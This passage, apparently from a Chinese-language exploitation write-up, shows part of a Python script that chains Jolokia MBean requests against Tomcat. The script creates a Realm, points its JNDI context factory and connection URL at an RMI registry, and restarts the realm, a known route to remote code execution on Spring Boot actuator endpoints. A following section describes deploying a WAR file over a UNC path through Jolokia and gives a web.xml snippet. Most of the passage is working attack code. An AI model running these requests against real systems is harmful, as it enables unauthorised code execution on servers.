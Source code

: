 ```bash
     "type": "WRITE",
     "attribute": "contextFactory",
     "value": "com.sun.jndi.rmi.registry.RegistryContextFactory"
 }

 write_url = {
     "mbean": "Tomcat:realmPath=/realm0,type=Realm",
     "type": "WRITE",
     "attribute": "connectionURL",
     "value": "rmi://localhost:1097/Object"
 }

 stop = {
     "mbean": "Tomcat:realmPath=/realm0,type=Realm",
     "type": "EXEC",
     "operation": "stop",
     "arguments": []
 }

 start = {
     "mbean": "Tomcat:realmPath=/realm0,type=Realm",
     "type": "EXEC",
     "operation": "start",
     "arguments": []
 }

 flow = [create_realm, wirte_factory, write_url, stop, start]

 for i in flow:
     print('%s MBean %s: %s ...' % (i['type'].title(), i['mbean'], i.get('operation', i.get('attribute'))))
     requests.post(url, json=i).json()
```

补充

利用UNC部署war文件（只能用于windows）

在 Tomcat Host Manager 这里可以利用 UNC 来部署 war 文件。实际上对于Tomcat:type=MBeanFactory 的createStandardHost，和 Host Manager 这里调用的是相同的方法。所以根据文章所述的方法，我们同样可以在Jolokia 里重现。不过可惜的是这里只对 Windows 有效。 首先去 spring-boot 的 Github 下载 spring-boot-samples-traditional，在 web.xml 里添加如下内容：


```xml
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>
        org.apache.catalina.servlets.DefaultServlet
    </servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>

<servlet-mapping>
    <servlet-name>default</servlet-name>
    <url-pattern>/default</url-pattern>
</servlet-mapping>
```
